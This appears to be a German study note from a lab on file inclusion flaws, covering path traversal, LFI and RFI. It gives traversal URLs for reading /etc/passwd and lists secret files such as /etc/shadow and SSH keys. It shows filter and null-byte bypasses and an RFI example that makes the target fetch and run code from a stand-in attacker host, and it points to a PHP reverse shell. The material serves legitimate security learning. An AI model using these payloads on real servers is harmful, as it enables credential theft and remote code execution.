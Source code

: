 ### Was Das?
Generell werden File Inclusions aufgeteilt in Local und Remote File Inclusions (LFI und RFI) und generelles Directory Traversal. 

Die Lücken können Auftreten Da Websites Teilweise so geschrieben sind das sie z.B. Bilder, statischen Text usw., über Parameter anfordern. Parameter sind Abfrageparameter-Strings, die an die URL angehängt werden und zum Abrufen von Daten oder zur Durchführung von Aktionen auf der Grundlage von Benutzereingaben verwendet werden können. Im folgenden Diagramm sind die wesentlichen Bestandteile einer URL dargestellt.

https://imgur.com/ar0UxEZ

Das Hauptproblem bei diesen Schwachstellen ist die Eingabevalidierung, bei der die Benutzereingaben nicht bereinigt oder validiert werden und der Benutzer sie kontrolliert. Wenn die Eingabe nicht validiert wird, kann der Benutzer jede beliebige Eingabe an die Funktion übergeben, was die Sicherheitslücke verursacht. 


### Path Traversal
Auch bekannt als Directory Traversal. Eine Web-Sicherheitslücke ermöglicht es einem Angreifer, Betriebssystem-Ressourcen, wie z. B. lokale Dateien auf dem Server, auf dem eine Anwendung läuft, zu lesen. Der Angreifer nutzt diese Sicherheitslücke aus, indem er die URL der Webanwendung manipuliert und missbraucht, um Dateien oder Verzeichnisse zu finden und darauf zuzugreifen, die außerhalb des Stammverzeichnisses der Anwendung gespeichert sind.

###### dot dot Slash angriff
nutzt die funktion das mit jedem ../ das Directory eins nach oben gemoved wird quasi wie cd..
Wenn der Angreifer einen Eintrittspunkt wie zum Beispiel ein ***get.php?file=*** darauf hin kann der Angreifer etwas in diese richtung schicken 

```
http://webapp.thm/get.php?file=../../../../etc/passwd
```

Angenommen, es gibt keine Eingabeüberprüfung, und statt auf die PDF-Dateien unter /var/www/app/CVs zuzugreifen, ruft die Webanwendung Dateien aus anderen Verzeichnissen ab, in diesem Fall /etc/passwd. Jeder .. Eintrag bewegt sich um ein Verzeichnis, bis er das Stammverzeichnis / erreicht. Dann wechselt er das Verzeichnis zu /etc und liest von dort die Datei passwd.

Beispiel Bild: 
https://imgur.com/szBSssW

Intressant Locations an die man Navigieren kann

| **Location**                  | **Description**                                                                                                                                                   |
| ----------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `/etc/issue`                  | contains a message or system identification to be printed before the login prompt.                                                                                |
| `/etc/profile`                | controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived |
| `/proc/version`               | specifies the version of the Linux kernel                                                                                                                         |
| `etc/passwd`                  | has all registered users that have access to a system                                                                                                             |
| `/etc/shadow`                 | contains information about the system's users' passwords                                                                                                          |
| `/root/.bash_history`         | contains the history commands for `root` user                                                                                                                     |
| `/var/log/dmessage`           | contains global system messages, including the messages that are logged during system startup                                                                     |
| `/var/mail/root`              | all emails for `root` user                                                                                                                                        |
| `/root/.ssh/id_rsa`           | Private SSH keys for a root or any known valid user on the server                                                                                                 |
| `/var/log/apache2/access.log` | the accessed requests for `Apache` web server                                                                                                                     |
| `C:\boot.ini`                 | contains the boot options for computers with BIOS firmware                                                                                                        |


#### Current Directory Trick
Wird Genutzt wenn der Developer begriffe/Pfade gefiltert hat wie z.B. /etc/passwd
Was man jetzt machen kann ist der "Current Directory Trick" dieser funktioniert ähnlich wie "cd". Während cd.. uns ein Directory nach oben bringt bleibt cd. im selben Directory 
Bsp.:
http://webapp.thm/index.php?lang=/etc/passwd/.

### LFI

Kann wie Path Traversal die dot dot Slash methode Benutzen. Kann aber auch schon jenachdem einfachere Variante nutzen 


wie z.B. die gesuchte Datei an die URL anheften. Dies funktioniert wenn im Query code kein Direcory Spezifiziert ist. 
Bsp.
http://10.10.208.102//lab1.php?file=/etc/passwd


Wenn ein Directory Spezifiziert ist kann die Dot Dot Slash methode verwendet werden. 
Bsp.:
http://10.10.208.102/lab2.php?file=../../../../etc/passwd


Vorgehen beim Angreifen einer "Black Box"
Bsp.:
Entry Point 
http://webapp.thm/index.php?lang=EN
Beim eingeben eines Inputs kommt diese Fehlermeldung
```
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
Was Erfahren wir aus der Meldung? 
-> Da wir THM als input genommen haben erfahren wir das es eine Include Funktion gibt (So im etwa: include(languages/THM.php);)
-> Wir sehen das der Input via PHP gehandelt wird
-> Der Pfad der Applikation ist /var/www/html/THM-4/

	-> Mögliche Angriffmethodik ist Dot Dot Slash 
	http://webapp.thm/index.php?lang=../../../../etc/passwd

Fehlermeldung aus dem Befehl:

```
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
Rückschlüsse aus der Meldung: 
-> Anscheinend sind wir aus dem Verzeichniss raus gekommen allerdings wird an den input noch .php gehangen
-> das .php kann via eines NULLBYTES entfernt werden (%00)
- Modifizierte Angriffsmethodik:
- http://webapp.thm/index.php?lang=../../../../etc/passwd%00
**Note:** the %00 trick is fixed and not working with PHP 5.3.4 and above.

#### Was Tun wenn ../ durch durch Leerzeichen Ersetzt?

Einfach da nur der erste Substring durch PHP ersetzt wird kann man das wie Folgt bypassen: 
 ....//....//....//....//....//etc/passwd
 Bildliche Erklärung:
 https://imgur.com/aYrz6QC

#### Was tun wenn der Dev die Anfrage Forced durch ein Spezielles Directory laufen zu lassen?
Beispielpfad:
http://webapp.thm/index.php?lang=languages/EN.php
kann wie Folgt ausgehebelt werden: 
http://webapp.thm/index.php?lang=languages/../../../../../etc/passwd


### RFI -Remote File Incluson
Remote File Inclusion (RFI) ist eine Technik zur Einbindung von Remote Files in eine anfällige Anwendung. Wie LFI tritt RFI auf, wenn Benutzereingaben nicht ordnungsgemäß bereinigt werden, so dass ein Angreifer eine externe URL in die Include-Funktion einfügen kann. Eine Voraussetzung für RFI ist, dass die Option allow_url_fopen aktiviert sein muss.
Das Risiko eines RFI-Angriffs ist höher als das eines LFI-Angriffs, da RFI-Schwachstellen es einem Angreifer ermöglichen, Remote Command Execution (RCE) auf dem Server zu erlangen. 

Weitere Folgen eines erfolgreichen RFI-Angriffs sind:

- Offenlegung sensibler Informationen
- Cross-Site Scripting (XSS)
- Denial of Service (DoS)

Bildliches Beispiel
https://imgur.com/7JxRw1l

Schriftliches Beispiel 
Eine Website mit der URL http://webapp.thm/ hat eine Input möglichkeit für Sprachpakete die nicht korrekt gefiltert wird. 
Wir hosten einen Server der eine datei namens cmd.txt hostet (URL  http://attacker.thm/cmd.txt)
Dem Zielserver senden wir die Anfrage "http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt"
Dadurch das der Input vom Ziel nicht validiert wird geht die URL in die Include Funktion und sendet damit eine GET Request an unseren server und fragt die cmd.txt ab. 
Wenn die cmd.txt erfolgreich abgerufen ist führt die PHP Funktion diese auch direkt aus und wir bekommen die rückmeldung das dass script lief 

Hier kann man auch Beispielhaft .php Reverseshells nutzen 
https://pentestmonkey.net/tools/web-shells/php-reverse-shell
